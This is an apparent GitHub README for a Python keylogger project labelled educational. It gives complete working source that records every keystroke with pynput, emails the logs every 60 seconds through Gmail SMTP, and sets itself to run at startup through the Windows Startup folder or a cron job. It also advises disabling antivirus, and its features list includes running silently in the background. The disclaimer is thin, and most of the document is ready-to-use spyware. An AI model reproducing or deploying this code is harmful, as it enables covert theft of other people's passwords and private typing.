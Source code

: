 
## **Keylogger Project**

A **keylogger** is a program that records the keystrokes made by a user on a keyboard. This keylogger project is for **educational purposes** only and is designed to teach how keystroke logging works in cybersecurity.

### **Disclaimer**
This project is intended **only for educational purposes**. Unauthorized use of a keylogger on any device or network without permission is illegal.

---

### **Features**

- Captures all keystrokes entered by the user.
- Stores keystroke logs locally in a file.
- Sends keystroke logs via email (optional feature).
- Runs silently in the background.
- Option to run the keylogger at system startup.

---

### **How to Set Up and Use**

#### **1. Clone the Repository**

```bash
git clone https://github.com/your-username/keylogger-project.git
cd keylogger-project
```

#### **2. Install Requirements**

Make sure you have Python 3.x installed. Then, install the required libraries:

```bash
pip install pynput
```

#### **3. Run the Script**

```bash
python keylogger.py
```

---

### **Keylogger Script Overview**

#### **How It Works**

1. The script uses the `pynput` library to listen for keyboard events.
2. Every keystroke is recorded and appended to a log file.
3. (Optional) The log file can be sent to a specified email address at regular intervals.

---

### **Key Sections of the Code**

```python
import pynput
from pynput.keyboard import Key, Listener

log_file = "key_log.txt"

# Function to write keystrokes to file
def write_to_file(key):
    with open(log_file, "a") as file:
        key = str(key).replace("'", "")
        if key == "Key.space":
            file.write(" ")
        elif key == "Key.enter":
            file.write("\n")
        elif key.startswith("Key."):
            file.write(f"[{key}]")
        else:
            file.write(key)

# Listener to capture key events
def on_press(key):
    write_to_file(key)

with Listener(on_press=on_press) as listener:
    listener.join()
```

---

### **Advanced Features**

1. **Email Sending**  
   Modify the script to send logs to an email address using the `smtplib` library.
   
2. **Running at System Startup**  
   You can configure the keylogger to run automatically when the system starts by adding it to the startup folder (on Windows) or creating a cron job (on Linux).

---

### **Contributing**

Contributions are welcome! If you have ideas to improve the keylogger or add more features, feel free to fork the repository and submit a pull request.

---

Here’s a full **keylogger Python script** with advanced features including **email sending** and **startup configuration**.

---

### **Keylogger Python Script**

```python
import os
import pynput
from pynput.keyboard import Key, Listener
import smtplib
from threading import Timer
from datetime import datetime

# Configuration
LOG_INTERVAL = 60  # Time in seconds to send logs via email
EMAIL_ADDRESS = "your_email@gmail.com"  # Replace with your email
EMAIL_PASSWORD = "your_password"        # Replace with your password
LOG_FILE = "key_log.txt"
LOGS_FOLDER = "logs"

# Create logs folder if not exists
if not os.path.exists(LOGS_FOLDER):
    os.makedirs(LOGS_FOLDER)

# Function to write logs to a file
def write_to_file(key):
    with open(os.path.join(LOGS_FOLDER, LOG_FILE), "a") as file:
        key = str(key).replace("'", "")
        if key == "Key.space":
            file.write(" ")
        elif key == "Key.enter":
            file.write("\n")
        elif key.startswith("Key."):
            file.write(f"[{key}]")
        else:
            file.write(key)

# Email logs function
def send_logs_via_email():
    with open(os.path.join(LOGS_FOLDER, LOG_FILE), "r") as file:
        logs = file.read()
    
    if logs.strip():  # Only send if there's something logged
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
        server.sendmail(EMAIL_ADDRESS, EMAIL_ADDRESS, f"Subject: Keylogger Logs\n\n{logs}")
        server.quit()
    
    # Clear the log file after sending
    open(os.path.join(LOGS_FOLDER, LOG_FILE), "w").close()
    
    # Schedule the next email
    Timer(LOG_INTERVAL, send_logs_via_email).start()

# Listener to capture keystrokes
def on_press(key):
    write_to_file(key)

def on_release(key):
    if key == Key.esc:
        return False  # Stop the listener when ESC is pressed

# Start the keylogger
with Listener(on_press=on_press, on_release=on_release) as listener:
    # Start sending logs via email
    Timer(LOG_INTERVAL, send_logs_via_email).start()
    listener.join()
```

---

### **How It Works**

1. **Capturing Keystrokes**  
   The `pynput` library listens for key events (`on_press` and `on_release`). All keys are logged to the `key_log.txt` file.
   
2. **Sending Logs via Email**  
   Every 60 seconds (default value), the script sends the contents of the log file to the specified email. It then clears the log file to prepare for the next batch of logs.

3. **Running in the Background at Startup**  
   To make the keylogger run at startup:
   
   - **Windows**:  
     Create a shortcut of the Python script and place it in the Startup folder:  
     `C:\Users\<Your Username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
   
   - **Linux**:  
     Add a cron job to execute the script at startup:
     ```bash
     crontab -e
     ```
     Add this line:
     ```bash
     @reboot python3 /path/to/your/keylogger.py
     ```

---

### **Important Notes**

1. **Email Configuration**  
   - You need to enable **"Allow less secure apps"** in your Gmail account settings or generate an **App Password** if you have 2FA enabled.  
   - Use a dedicated email for this, as keylogging is sensitive, and you don't want to compromise your primary email account.

2. **Antivirus Detection**  
   Many antivirus programs will detect keylogger scripts as malicious. This is normal because keyloggers can be used for malicious purposes. If you are testing this on your own system, disable your antivirus or add an exception.

---
